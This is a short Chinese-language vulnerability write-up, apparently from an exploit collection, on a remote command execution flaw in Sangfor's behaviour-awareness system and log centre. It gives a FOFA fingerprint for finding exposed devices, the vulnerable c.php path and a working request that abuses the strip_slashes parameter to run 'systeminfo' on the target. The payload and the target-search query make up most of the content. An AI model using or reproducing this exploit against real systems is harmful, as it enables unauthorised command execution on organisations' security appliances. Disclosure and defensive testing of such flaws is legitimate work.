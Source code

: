 # 深信服行为感知系统&&日志中心 远程命令执行漏洞

## 漏洞描述

深信服行为感知系统&&日志中心 远程命令执行漏洞，使用与EDR相同模板和部分文件导致命令执行

## 漏洞影响

> 深信服 行为感知系统和日志中心

## FOFA

> body="isHighPerformance : !!SFIsHighPerformance,"

## 漏洞复现

漏洞URL为：

```
/tool/log/c.php?strip_slashes=system&host=
```

例如我要查看目标机器的系统信息：

```
https://x.x.x.x/tool/log/c.php?strip_slashes=system&host=systeminfo
```

![](/resource/深信服行为感知系统/1.png)